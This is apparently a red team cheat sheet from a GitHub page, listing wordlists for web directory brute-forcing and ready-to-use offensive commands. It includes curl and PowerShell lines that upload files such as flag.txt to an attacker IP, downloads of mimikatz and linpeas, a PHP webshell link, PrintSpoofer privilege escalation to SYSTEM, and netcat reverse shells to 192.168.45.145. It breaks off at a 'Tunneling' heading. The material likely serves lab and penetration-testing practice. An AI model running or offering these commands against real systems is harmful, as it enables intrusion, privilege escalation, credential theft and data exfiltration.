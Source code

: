 # Red Team Cheat Sheet

---

# Web

## Directory Traversal

https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

Commonly Used Dictionaries

```
# web/common.txt - 4743 Lines
https://raw.githubusercontent.com/voidexec/sec/main/web/common.txt

# web/big.txt - 20476 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/big.txt

# web/directory-list-2.3-small.txt - 87664 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-small.txt

# web/directory-list-2.3-medium.txt - 220559 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-medium.txt

# web/directory-list-2.3-big.txt - 1273832 lines
https://raw.githubusercontent.com/voidexec/sec/main/web/directory-list-2.3-big.txt
```

## HTTP Server for Upload and Download

```
# Download
https://raw.githubusercontent.com/voidexec/sec/main/web/httpserver.py

# Start Server
python3 httpserver.py (default port 80)
python3 httpserver.py -p 8000

# Upload file with curl
curl -F 'file=@/home/ubuntu/Desktop/flag.txt' http://192.168.45.145/

# Download file with curl
curl -O http://192.168.45.145/linpeas.sh

# Upload with PowerShell
$FilePath="C:\Users\Administrator\Desktop\flag.txt"; $Url="http://192.168.45.145/"; $client=New-Object System.Net.Http.HttpClient; $content=New-Object System.Net.Http.MultipartFormDataContent; $fileStream=[System.IO.File]::OpenRead($FilePath); $content.Add((New-Object System.Net.Http.StreamContent($fileStream)), "file", [System.IO.Path]::GetFileName($FilePath)); $client.PostAsync($Url, $content).Result.Content.ReadAsStringAsync().Result

# Download with PowerShell
iwr -uri "http://192.168.45.145/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

# Shell

Reverse Shell Generator https://www.revshells.com/

```bash
# PHP One-liner webshell
https://raw.githubusercontent.com/voidexec/sec/main/webshells/shell.php
```

# Windows

PrintSpoofer

```powershell
https://github.com/itm4n/PrintSpoofer/releases
# Usage 1 - Spawning cmd interactive as system
PrintSpoofer64.exe -i -c cmd
# Usage 2 - Launching reverse shell as system
PrintSpoofer64.exe -c "C:\Users\Public\nc64.exe 192.168.45.145 9001 -e powershell"
```

NC

```powershell
https://github.com/int0x33/nc.exe/
# nc64.exe
https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe
# Reverse shell
nc64.exe 192.168.45.145 9001 -e powershell
```

# Tunneling